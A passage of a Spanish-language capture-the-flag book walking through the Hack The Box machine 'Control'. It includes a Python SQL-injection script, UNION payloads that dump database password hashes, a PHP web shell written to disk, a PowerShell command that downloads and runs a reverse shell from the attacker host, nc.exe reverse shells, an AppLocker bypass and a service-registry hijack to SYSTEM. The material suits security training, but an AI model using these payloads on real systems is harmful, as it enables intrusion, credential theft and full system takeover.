\end{Highlighting}
\end{Shaded}

Ya podemos leer la flag.

\hypertarget{control}{%
\chapter*{Control}\label{control}}
\addcontentsline{toc}{chapter}{Control}

\hypertarget{introduccion-32}{%
\section*{Introduccion}\label{introduccion-32}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia 25/08/2021 se llama Control.

El replay del live se puede ver aqui

\href{https://www.youtube.com/watch?v=ig7wv4IdwiQ}{\includegraphics{https://img.youtube.com/vi/ig7wv4IdwiQ/0.jpg}}

No olvideis dejar un like al video y un commentario\ldots{}

\hypertarget{enumeracion-32}{%
\section*{Enumeracion}\label{enumeracion-32}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-32}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-32}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-32}{%
\subsubsection*{Ping}\label{ping-32}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.167}
\end{Highlighting}
\end{Shaded}

ttl: 127 -\textgreater{} maquina Windows

\hypertarget{nmap-32}{%
\subsubsection*{Nmap}\label{nmap-32}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.167}
\end{Highlighting}
\end{Shaded}

Va lento

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.167 -oG allPorts }
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p80,135,3306,49666,49667 10.10.10.167 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
80 & http & Web, Fuzzing &\tabularnewline
135 & msrpc & &\tabularnewline
3306 & mysql & SQLI &\tabularnewline
49666 & msrpc & puertos por defectos &\tabularnewline
49667 & msrpc & puertos por defectos &\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{analyzando-la-web-17}{%
\subsection*{Analyzando la web}\label{analyzando-la-web-17}}
\addcontentsline{toc}{subsection}{Analyzando la web}

\hypertarget{whatweb-25}{%
\subsubsection*{Whatweb}\label{whatweb-25}}
\addcontentsline{toc}{subsubsection}{Whatweb}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{whatweb}\NormalTok{ http://10.10.10.167}
\end{Highlighting}
\end{Shaded}

Nos enfrentamos a un Microsoft IIS 10.0 con PHP 7.3.7.

\hypertarget{http-enum-9}{%
\subsubsection*{http-enum}\label{http-enum-9}}
\addcontentsline{toc}{subsubsection}{http-enum}

Lanzamos un web scan con nmap.

nmap --script http-enum -p80 10.10.10.167 -oN webScan

Nos detecta la routa \texttt{admin}

\hypertarget{fuzzing-con-wfuzz-11}{%
\subsubsection*{Fuzzing con WFuzz}\label{fuzzing-con-wfuzz-11}}
\addcontentsline{toc}{subsubsection}{Fuzzing con WFuzz}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{wfuzz}\NormalTok{ -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.167/FUZZ}
\end{Highlighting}
\end{Shaded}

Encontramos las routas \texttt{uploads}, \texttt{admin}

\hypertarget{analyzando-la-web-con-firefox-7}{%
\subsection*{Analyzando la web con Firefox}\label{analyzando-la-web-con-firefox-7}}
\addcontentsline{toc}{subsection}{Analyzando la web con Firefox}

Entramos en una pagina, hay un boton admin en el menu y uno login.
Si miramos el codigo fuente vemos un comentario una Todo List:

\begin{itemize}
\tightlist
\item
  Import products
\item
  Link to new payment system
\item
  Enable SSL (Certificates location \textbackslash192.168.4.28\myfiles)
\end{itemize}

El ultimo en este caso es muy interesante.

Si pinchamos el link admin, vemos un mensaje \textbf{Acces Denied: Header Missing. Please ensure you go through the proxy to access this page}.
En este caso cuando se habla de proxy y de cabezera podemos uzar la heramienta \textbf{curl} con la cabezera \textbf{X-Forwarded-for}

\hypertarget{cabezera-proxy}{%
\subsection*{Cabezera proxy}\label{cabezera-proxy}}
\addcontentsline{toc}{subsection}{Cabezera proxy}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ -s -X GET }\StringTok{"http://10.10.10.167/admin.php"}\NormalTok{ -H }\StringTok{"X-Forwarded-For: 192.168.4.28"}
\end{Highlighting}
\end{Shaded}

Aqui vemos que nos a cargado una pagina.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ -s -X GET }\StringTok{"http://10.10.10.167/admin.php"}\NormalTok{ -H }\StringTok{"X-Forwarded-For: 192.168.4.28"} \KeywordTok{|} \ExtensionTok{html2text}
\end{Highlighting}
\end{Shaded}

Como vemos informaciones interesantes, vamos a tirar de \textbf{burpsuite} para ver la informacion de manera normal.

\hypertarget{auxf1adir-cabezera-desde-burpsuite}{%
\subsection*{Añadir cabezera desde Burpsuite}\label{auxf1adir-cabezera-desde-burpsuite}}
\addcontentsline{toc}{subsection}{Añadir cabezera desde Burpsuite}

Una vez el burpsuite configurado con la maquina victima de target, vamos a añadir una cabezera. Lo podemos hacer de 2 maneras:

\begin{itemize}
\tightlist
\item
  Manual (cambiando de manera manual a cada peticion el header)
\item
  Automatizada (que cada peticion use este header)
\end{itemize}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Pinchamos a Proxy \textgreater{} Options
\item
  Add Match and Replace

  \begin{figure}
   \includegraphics[width=0.9\linewidth]{images/Control-burp-xforwardingfor} \caption{Azure DevOps repositories}\label{fig:unnamed-chunk-67}
   \end{figure}
\item
  Interceptamos y vemos que se añade la cabezera
\item
  Desactivamos el intersepte
\end{enumerate}

Ya podemos navegar de manera normal.

Vemos una pagina con productos y un input para buscar productos. Si escribimos un producto, aparece una tabla con un titulo \textbf{id}.

Probamos poner un apostrofe \texttt{\textquotesingle{}} en el input de busqueda y nos sale un error SQL \texttt{Error\ SQLSTATE{[}42000{]}\ Syntax\ error\ or\ access\ violation\ You\ have\ an\ error\ in\ your\ SQL\ syntax,\ check\ the\ manual\ that\ corresponds\ to\ your\ MariaDB\ server\ version\ for\ the\ right\ syntax\ to\ use\ near\ "\textquotesingle{}"\ at\ line\ 1}

\hypertarget{vulnerability-assessment-19}{%
\section*{Vulnerability Assessment}\label{vulnerability-assessment-19}}
\addcontentsline{toc}{section}{Vulnerability Assessment}

\hypertarget{sql-injection-error-based-con-python}{%
\subsection*{SQL Injection Error Based con Python}\label{sql-injection-error-based-con-python}}
\addcontentsline{toc}{subsection}{SQL Injection Error Based con Python}

La idea aqui es crear un script en python que nos injecte el comando deseado y que filtre la respuesta al lado del servidor que
queremos.

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/usr/bin/python3}

\ImportTok{import}\NormalTok{ requests}
\ImportTok{import}\NormalTok{ re}
\ImportTok{import}\NormalTok{ signal}
\ImportTok{import}\NormalTok{ sys}
\ImportTok{import}\NormalTok{ time}

\KeywordTok{def}\NormalTok{ def_handler(sig, frame):}
    \BuiltInTok{print}\NormalTok{(}\StringTok{"}\CharTok{\textbackslash{}n}\StringTok{[!] Saliendo...}\CharTok{\textbackslash{}n}\StringTok{"}\NormalTok{)}
\NormalTok{    sys.exit(}\DecValTok{1}\NormalTok{)}

\CommentTok{# Ctrl+c}
\NormalTok{signal.signal(signal.SIGINT, def_handler)}

\CommentTok{# Variables_globales}
\NormalTok{sqli_url }\OperatorTok{=} \StringTok{"http://10.10.10.167/search_products.php"}

\KeywordTok{def}\NormalTok{ makeRequest(injection):}
\NormalTok{    post_data }\OperatorTok{=}\NormalTok{ \{}
        \StringTok{'productName: '}\OperatorTok{%}\NormalTok{s}\StringTok{' }\SpecialCharTok{% i}\StringTok{njection}
\StringTok{    \}}

\StringTok{    headers = \{}
\StringTok{        '}\NormalTok{X}\OperatorTok{-}\NormalTok{Forwarded}\OperatorTok{-}\NormalTok{For}\StringTok{': '}\DecValTok{192}\NormalTok{.}\DecValTok{168}\NormalTok{.}\FloatTok{4.28}\StringTok{'}
\StringTok{    \}}

\StringTok{    r = requests.post(sqli_url, data=post_data, headers=headers)}
\StringTok{    response = re.findall(r'}\OperatorTok{\textbackslash{}<}\NormalTok{tbody}\OperatorTok{\textbackslash{}>\textbackslash{}}\NormalTok{r}\OperatorTok{\textbackslash{}}\NormalTok{n}\OperatorTok{\textbackslash{}}\NormalTok{t}\OperatorTok{\textbackslash{}}\NormalTok{t}\OperatorTok{\textbackslash{}}\NormalTok{t}\OperatorTok{\textbackslash{}}\NormalTok{t}\OperatorTok{\textbackslash{}}\NormalTok{t}\OperatorTok{\textbackslash{}}\NormalTok{t}\OperatorTok{\textbackslash{}}\NormalTok{t(.}\OperatorTok{*}\NormalTok{?)}\OperatorTok{\textbackslash{}}\NormalTok{t}\OperatorTok{\textbackslash{}}\NormalTok{t}\OperatorTok{\textbackslash{}}\NormalTok{t}\OperatorTok{\textbackslash{}}\NormalTok{t}\OperatorTok{\textbackslash{}}\NormalTok{t}\OperatorTok{\textbackslash{}}\NormalTok{t}\OperatorTok{\textbackslash{}<\textbackslash{}/}\NormalTok{tbody}\OperatorTok{\textbackslash{}>}\StringTok{', r.text[0])}

\StringTok{    print("}\CharTok{\textbackslash{}n}\StringTok{ + response + }\CharTok{\textbackslash{}n}\StringTok{")}


\StringTok{if __name__ == '}\NormalTok{__main__}\StringTok{':}
\StringTok{    while True:}
\StringTok{        injection = input("[+] Payload: ")}
\StringTok{        if injection != "exit":}
\StringTok{            makeRequest(injection)}
\StringTok{        else:}
\StringTok{            print("}\CharTok{\textbackslash{}n}\StringTok{[!] Saliendo...}\CharTok{\textbackslash{}n}\StringTok{")}
\StringTok{            sys.exit(0)}
\end{Highlighting}
\end{Shaded}

si lanzamos el script con \texttt{rlwrap\ python3\ sqli\_injection.py} y a la entrada payload le ponemos el apostrofe, podemos ver el error. Ya podemos enumerar
la base de datos.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Miramos cuantas columnas hay

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{[}\ExtensionTok{+}\NormalTok{] Payload : }\StringTok{' order by 100-- -}
\StringTok{[+] Payload : '}\NormalTok{ order by 10-- -}
\NormalTok{[}\ExtensionTok{+}\NormalTok{] Payload : }\StringTok{' order by 8-- -}
\StringTok{[+] Payload : '}\NormalTok{ order by 7-- -}
\NormalTok{[}\ExtensionTok{+}\NormalTok{] Payload : }\StringTok{' order by 6-- -}
\end{Highlighting}
\end{Shaded}

  Al \texttt{\textquotesingle{}\ order\ by\ 6-\/-\ -} nos sale No product Found, ya sabemos que hay 6 columnas
\item
  Aplicamos el union select

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{[}\ExtensionTok{+}\NormalTok{] Payload : }\StringTok{' union select 1,2,3,4,5,6-- -}
\end{Highlighting}
\end{Shaded}

  Vemos que se estan colandos la etiquetas
\item
  Listamos la base de datos actual en uso y el usuario

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{[}\ExtensionTok{+}\NormalTok{] Payload : }\StringTok{' union select 1,2,database(),4,5,6-- -}
\StringTok{[+] Payload : '}\NormalTok{ union select 1,2,version(),}\ExtensionTok{4}\NormalTok{,5,6-- -}
\NormalTok{[}\ExtensionTok{+}\NormalTok{] Payload : }\StringTok{' union select 1,2,user(),4,5,6-- -}
\end{Highlighting}
\end{Shaded}

  La base de datos se llama warehouse de typo MariaDB version 10.4.8 y el usuario \href{mailto:manager@localhost}{\nolinkurl{manager@localhost}}
\item
  Miramos si podemos leer archivos de la maquina victima

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{[}\ExtensionTok{+}\NormalTok{] Payload : }\StringTok{' union select 1,2,load_file("C:\textbackslash{}Windows\textbackslash{}System32\textbackslash{}drivers\textbackslash{}etc\textbackslash{}hosts"),4,5,6-- -}
\StringTok{[+] Payload : '}\NormalTok{ union select 1,2,load_file(}\StringTok{"Windows\textbackslash{}System32\textbackslash{}drivers\textbackslash{}etc\textbackslash{}hosts"}\NormalTok{),}\ExtensionTok{4}\NormalTok{,5,6-- -}
\NormalTok{[}\ExtensionTok{+}\NormalTok{] Payload : }\StringTok{' union select 1,2,load_file("0x433a5c57696e646f77735c53797374656d33325c647269766572731b74635c686f737473"),4,5,6-- -}
\end{Highlighting}
\end{Shaded}

  Parece que no podemos leer ficheros del systema.

  \begin{quote}
  {[} ! {]} NOTAS: el hexadecimal se hace con el comando \texttt{echo\ "C:\textbackslash{}Windows\textbackslash{}System32\textbackslash{}drivers\textbackslash{}etc\textbackslash{}hosts"\ \textbar{}\ tr\ -d\ \textquotesingle{}\textbackslash{}n\textquotesingle{}\ \textbar{}\ xxd\ -ps\ \textbar{}\ xargs\ \textbar{}\ tr\ -d\ \textquotesingle{}\ \textquotesingle{}}
  \end{quote}
\item
  Enumeramos las tablas existentes de la base de datos

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{[}\ExtensionTok{+}\NormalTok{] Payload : }\StringTok{' union select 1,2,group_concat(table_name),4,5,6 from information_schema.tables where table_schema="warehouse"-- -}
\end{Highlighting}
\end{Shaded}

  Vemos que hay una tabla product, product\_category y product\_pack. No parece que haya informacion relevante.
\item
  Enumerar las bases de datos del systema

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{[}\ExtensionTok{+}\NormalTok{] Payload : }\StringTok{' union select 1,2,group_concat(schema_name),4,5,6 from information_schema.schemata-- -}
\end{Highlighting}
\end{Shaded}

  Hay 3 bases de datos information\_schema, mysql y warehouse.
\item
  Enumeramos la base de datos mysql

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{[}\ExtensionTok{+}\NormalTok{] Payload : }\StringTok{' union select 1,2,group_concat(table_name),4,5,6 from information_schema.tables where table_schema="mysql"-- -}
\end{Highlighting}
\end{Shaded}

  Hay muchas tablas y una es la tabla user
\item
  Enumeramos las columnas de la tabla user

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{[}\ExtensionTok{+}\NormalTok{] Payload : }\StringTok{' union select 1,2,group_concat(column_name),4,5,6 from information_schema.columns where table_schema="mysql" and table_name="user"-- -}
\end{Highlighting}
\end{Shaded}

  Existe una columna user y una password
\item
  Accedemos a los usuarios y contraseñas de la base de datos

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{[}\ExtensionTok{+}\NormalTok{] Payload : }\StringTok{' union select 1,2,group_concat(User,0x3a,Password),4,5,6 from mysql.user-- -}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Copiamos los usuarios y la contraseñas en un fichero llamado hashes.

\hypertarget{crackeamos-las-contraseuxf1as-con-crackstation}{%
\subsection*{Crackeamos las contraseñas con crackstation}\label{crackeamos-las-contraseuxf1as-con-crackstation}}
\addcontentsline{toc}{subsection}{Crackeamos las contraseñas con crackstation}

Tratamos las informaciones del fichero hash

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{cat}\NormalTok{ hashes }\KeywordTok{|} \FunctionTok{tr} \StringTok{','} \StringTok{'\textbackslash{}n'} \KeywordTok{|} \FunctionTok{sed} \StringTok{'s/\textbackslash{}*//g'} \KeywordTok{|} \FunctionTok{sort}\NormalTok{ -u }\OperatorTok{>}\NormalTok{ hashes}
\FunctionTok{cat}\NormalTok{ hashes }\KeywordTok{|} \FunctionTok{awk} \StringTok{'\{print $2\}'}\NormalTok{ FS=}\StringTok{":"} \KeywordTok{|} \ExtensionTok{xclip}\NormalTok{ -sel clip}
\end{Highlighting}
\end{Shaded}

Abrimos la web de \href{https://crackstation.net/}{crackstation} y colamos los hashes. Encontramos las contraseñas de hector y de manager.

Aqui el problema es que no tenemos puertos que nos permite conectar a la maquina de manera directa. Tenemos que intentar otra cosa para
poder ganar accesso al systema.

\hypertarget{vuln-exploit-gaining-access-19}{%
\section*{Vuln exploit \& Gaining Access}\label{vuln-exploit-gaining-access-19}}
\addcontentsline{toc}{section}{Vuln exploit \& Gaining Access}

\hypertarget{ganando-accesso-con-sql-injection}{%
\subsection*{Ganando accesso con SQL Injection}\label{ganando-accesso-con-sql-injection}}
\addcontentsline{toc}{subsection}{Ganando accesso con SQL Injection}

Lo que vamos a intentar hacer, es escribir en un fichero usando la \textbf{SQLI}. Esto se puede hacer con el commando
\texttt{into\ outfile}. Como savemos que la web es un IIS la routa por defecto de windows para hostear las webs de IIS es
\texttt{C:\textbackslash{}inetpub\textbackslash{}wwwroot} y hemos encontrado una routa \texttt{/uploads} intentamos ver si podemos escribir nuevos ficheros.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{rlwrap}\NormalTok{ python3 sqli_injection.py}
\NormalTok{[}\ExtensionTok{+}\NormalTok{] Payload : }\StringTok{' union select 1,2,"test",4,5,6 into outfile "C:\textbackslash{}inetpub\textbackslash{}wwwroot\textbackslash{}uploads\textbackslash{}test.txt-- -}
\StringTok{[+] Payload : '}\NormalTok{ union select 1,2,}\StringTok{"test"}\NormalTok{,4,5,6 into outfile }\StringTok{"C:}\DataTypeTok{\textbackslash{}\textbackslash{}}\StringTok{inetpub}\DataTypeTok{\textbackslash{}\textbackslash{}}\StringTok{wwwroot}\DataTypeTok{\textbackslash{}\textbackslash{}}\StringTok{uploads}\DataTypeTok{\textbackslash{}\textbackslash{}}\StringTok{test.txt-- -}
\end{Highlighting}
\end{Shaded}

Si vamos a la url \texttt{http://10.10.10.167/uploads/test.txt} vemos el fichero creado. Intentamos injectar codigo malicioso

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{rlwrap}\NormalTok{ python3 sqli_injection.py}
\NormalTok{[}\ExtensionTok{+}\NormalTok{] Payload : }\StringTok{' union select 1,2,"<?php echo \textbackslash{}"<pre>\textbackslash{}" . shell_exec($_REQUEST['}\NormalTok{cmd}\StringTok{']) . \textbackslash{}"</pre>\textbackslash{}"; ?>",4,5,6 into outfile "C:\textbackslash{}inetpub\textbackslash{}wwwroot\textbackslash{}uploads\textbackslash{}s4vishell.php-- -}
\end{Highlighting}
\end{Shaded}

Ya podemos comprobar que podemos ejecutar comandos en la url \texttt{http://10.10.10.167/uploads/s4vishell.php?cmd=whoami}.

Vamos a por ganar accesso al systema

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Descargamos la nueva full TTY powershell

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{git}\NormalTok{ clone https://github.com/antonioCoco/ConPtyShell}
\BuiltInTok{cd}\NormalTok{ ConPtyShell}
\FunctionTok{stty}\NormalTok{ size}
\ExtensionTok{vi}\NormalTok{ Invoke-ConPtyShell.ps1}
\end{Highlighting}
\end{Shaded}
\item
  Añadimos lo siguiente al final del fichero

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{Invoke-ConPtyShell}\NormalTok{ -RemoteIp 10.10.14.15 -RemotePort 443 -Rows 51 -Cols 189}
\end{Highlighting}
\end{Shaded}
\item
  Compartimos un servidor web con python

  `\texttt{bash\textasciigrave{}\ \ python3\ -m\ http.server\ 80}
\item
  Nos ponemos en escucha por el puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  Enviamos y ejecutamos el ficher Invoke-ConPtyShell.ps1

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{http}\NormalTok{://10.10.10.167/uploads/s4vishell.php?cmd=powershell IEX(New-Object Net.WebClient)}\ExtensionTok{.downloadString}\NormalTok{(}\StringTok{"http://10.10.14.15/Invoke-ConPtyShell.ps1"}\NormalTok{)}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Ya tenemos accesso al systema

\hypertarget{tratamiento-de-la-tty-19}{%
\subsection*{Tratamiento de la TTY}\label{tratamiento-de-la-tty-19}}
\addcontentsline{toc}{subsection}{Tratamiento de la TTY}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{^}\ExtensionTok{Z}
\FunctionTok{stty}\NormalTok{ raw -echo}\KeywordTok{;} \BuiltInTok{fg}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ enter}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ enter}

\FunctionTok{whoami}
\CommentTok{#output}
\ExtensionTok{error}

\BuiltInTok{cd}\NormalTok{ C:\textbackslash{}}
\NormalTok{#output}
\ExtensionTok{error}
\end{Highlighting}
\end{Shaded}

Los dos primeros commandos nos da un error pero a partir de aqui, ya tenemos una full tty shell.

\hypertarget{enumerando-el-systema}{%
\subsection*{Enumerando el systema}\label{enumerando-el-systema}}
\addcontentsline{toc}{subsection}{Enumerando el systema}

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ Users/}
\FunctionTok{dir}
\BuiltInTok{cd}\NormalTok{ Hector}
\FunctionTok{dir}
\CommentTok{#Output}
\ExtensionTok{Error}

\BuiltInTok{cd}\NormalTok{ ../Administrator}
\FunctionTok{dir}
\CommentTok{#Output}
\ExtensionTok{Error}
\end{Highlighting}
\end{Shaded}

No tenemos derechos para entrar en los directorios de los Usuarios. Pero tenemos una contraseña para el usuario Hector.

\hypertarget{user-pivoting-al-usuario-hector}{%
\subsection*{User pivoting al usuario hector}\label{user-pivoting-al-usuario-hector}}
\addcontentsline{toc}{subsection}{User pivoting al usuario hector}

Vemos si podemos lanzar commandos como el usuario hector.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{hostname}
\CommentTok{#Output}
\ExtensionTok{Fidelity}

\VariableTok{$user}\NormalTok{ = }\StringTok{'fidelity\textbackslash{}hector'}
\VariableTok{$password}\NormalTok{ = }\StringTok{'l33th4x0rhector'}
\VariableTok{$secpw}\NormalTok{ = }\ExtensionTok{ConvertTo-SecureString} \VariableTok{$password}\NormalTok{ -AsPlainText -Force}
\VariableTok{$cred}\NormalTok{ = }\ExtensionTok{New-Object}\NormalTok{ System.Management.Automation.PSCrendential }\VariableTok{$user}\NormalTok{,}\VariableTok{$secpw}
\ExtensionTok{Invoke-Command}\NormalTok{ -ComputerName localhost -Cred }\VariableTok{$cred}\NormalTok{ -ScriptBlock }\DataTypeTok{\{whoami\}}
\CommentTok{#Output}
\ExtensionTok{control}\NormalTok{\textbackslash{}hector}
\end{Highlighting}
\end{Shaded}

Hemos podido lanzar un script enjaolado sobre un Blocke como si fuera el usuario hector que lo ejecutara.
La idea aqui es entablarnos una reverse shell ejecutada como el usuario hector.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Enviamos un nc.exe a la maquina victima

  \begin{itemize}
  \item
    en la maquina de atacante

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{locate}\NormalTok{ nc.exe}
\FunctionTok{cp}\NormalTok{ /usr/share/sqlninja/apps/nc.exe .}
\ExtensionTok{impacket-smbserver}\NormalTok{ smbFolder }\VariableTok{$(}\BuiltInTok{pwd}\VariableTok{)}\NormalTok{ -smb2support -username s4vitar -password s4vitar123}
\end{Highlighting}
\end{Shaded}
  \item
    en la maquina victima

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ C:\textbackslash{}Windows\textbackslash{}Temp}
\FunctionTok{mkdir}\NormalTok{ userPivoting}
\BuiltInTok{cd}\NormalTok{ userPivoting}
\ExtensionTok{net}\NormalTok{ use x: }\DataTypeTok{\textbackslash{}\textbackslash{}}\NormalTok{10.10.14.15\textbackslash{}smbFolder /user:s4vitar s4vitar123}
\ExtensionTok{copy}\NormalTok{ x:\textbackslash{}nc.exe nc.exe}
\end{Highlighting}
\end{Shaded}
  \end{itemize}
\item
  Lanzamos la reverse shell como el usuario hector

  \begin{itemize}
  \item
    en la maquina de atacante

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{rlwrap}\NormalTok{ nc -nlvp 443}
\end{Highlighting}
\end{Shaded}
  \item
    en la maquina victima

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{Invoke-Command}\NormalTok{ -ComputerName localhost -Cred }\VariableTok{$cred}\NormalTok{ -ScriptBlock \{C:\textbackslash{}Windows\textbackslash{}Temp\textbackslash{}userPivoting\textbackslash{}nc.exe -e cmd 10.10.14.15 443 \}}
\end{Highlighting}
\end{Shaded}

    tenemos un error, quiere decir que tenemos que passar por un \textbf{AppLockerByPass}. Las routas se pueden encontrar en \href{https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md}{UltimateAppLockerByPassList}.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{cp}\NormalTok{ nc.exe C:\textbackslash{}Windows\textbackslash{}System32\textbackslash{}spool\textbackslash{}drivers\textbackslash{}color\textbackslash{}nc.exe}
\ExtensionTok{C}\NormalTok{:\textbackslash{}Windows\textbackslash{}System32\textbackslash{}spool\textbackslash{}drivers\textbackslash{}color\textbackslash{}nc.exe -e cmd 10.10.14.15 443}
\end{Highlighting}
\end{Shaded}
  \end{itemize}
\end{enumerate}

Ya hemos ganado acceso al systema como el usuario hector y podemos ver la flag.

\hypertarget{privilege-escalation-17}{%
\section*{Privilege Escalation}\label{privilege-escalation-17}}
\addcontentsline{toc}{section}{Privilege Escalation}

\hypertarget{rootear-la-maquina-26}{%
\subsection*{Rootear la maquina}\label{rootear-la-maquina-26}}
\addcontentsline{toc}{subsection}{Rootear la maquina}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{whoami}
\FunctionTok{whoami}\NormalTok{ /priv}
\end{Highlighting}
\end{Shaded}

Como no tenemos posibilidades de escalar privilegios con un seImpersonatePrivilege por ejemplo, vamos a tener que enumerar el systema

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ C:\textbackslash{}Windows\textbackslash{}Temp}
\FunctionTok{mkdir}\NormalTok{ privesc}
\end{Highlighting}
\end{Shaded}

Descargamos el \href{https://github.com/carlospolop/PEASS-ng/raw/master/winPEAS/winPEASexe/binaries/Obfuscated\%20Releases/winPEASx64.exe}{\textbf{Winpeas.exe}}.
Cancelamos el recurso smb y creamos un nuevo para transferir el fichero.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{mv}\NormalTok{ /home/s4vitar/Descargas/winPEASx64.exe ./winpeas.exe}
\ExtensionTok{impacket-smbserver}\NormalTok{ smbFolderr }\VariableTok{$(}\BuiltInTok{pwd}\VariableTok{)}\NormalTok{ -smb2support -username s4vitar -password s4vitar123}
\end{Highlighting}
\end{Shaded}

y lo transferimos a la maquina victima

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{net}\NormalTok{ use y: }\DataTypeTok{\textbackslash{}\textbackslash{}}\NormalTok{10.10.14.15\textbackslash{}smbFolderr /user:s4vitar s4vitar123}
\ExtensionTok{copy}\NormalTok{ y:\textbackslash{}winpeas.exe winpeas.exe}
\FunctionTok{dir}
\ExtensionTok{winpeas.exe}
\end{Highlighting}
\end{Shaded}

El winpeas.exe nos reporta que el usuario Hector tiene fullControl sobre bastante servicios, uno de ellos es el seclogon.

\begin{figure}
\includegraphics[width=0.9\linewidth]{images/Control-Hector-services-fullControl} \caption{Hector service fullControl}\label{fig:unnamed-chunk-68}
\end{figure}

Si lanzamos el commando \texttt{sc\ query\ seclogon} vemos que el servicio esta apagado pero podriamos lanzarlo configurando la manera que queremos que arranque.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{reg}\NormalTok{ query }\StringTok{"HKLM\textbackslash{}system\textbackslash{}currentcontrolset\textbackslash{}services\textbackslash{}seclogon"}
\end{Highlighting}
\end{Shaded}

\begin{figure}
\includegraphics[width=0.9\linewidth]{images/Control-reg_expand_sz} \caption{service seclogon reg-expand-sz}\label{fig:unnamed-chunk-69}
\end{figure}

La idea aqui es que el \textbf{ImagePath}, mejor dicho el svchost.exe se ejecuta directamente a la hora que lanzamos el servicio y este binario esta ejecutado
por el usuario administrador. La idea aqui es tomar el control del \textbf{ImagePath} para que valga otra cosa.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{reg}\NormalTok{ add }\StringTok{"HKLM\textbackslash{}system\textbackslash{}currentcontrolset\textbackslash{}services\textbackslash{}seclogon"}\NormalTok{ /t REG_EXPAND_SZ /v ImagePath /d }\StringTok{"C:\textbackslash{}Windows\textbackslash{}System32\textbackslash{}spool\textbackslash{}drivers\textbackslash{}color\textbackslash{}nc.exe -e cmd 10.10.14.15 443"}\NormalTok{ /f}
\end{Highlighting}
\end{Shaded}

Ya podemos comprobar con el commando \texttt{reg\ query\ "HKLM\textbackslash{}system\textbackslash{}currentcontrolset\textbackslash{}services\textbackslash{}seclogon"} que el ImagePath a sido cambiado.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Nos ponemos en escucha por el puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  arrancamos el servicio

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{sc}\NormalTok{ start seclogon}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

ya hemos ganado accesso al systema como \texttt{nt\ authority\textbackslash{}system} y podemos leer la flag.

\hypertarget{falafel}{%
\chapter*{Falafel}\label{falafel}}
\addcontentsline{toc}{chapter}{Falafel}

\hypertarget{introduccion-33}{%
\section*{Introduccion}\label{introduccion-33}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia 26/08/2021 se Falafel.

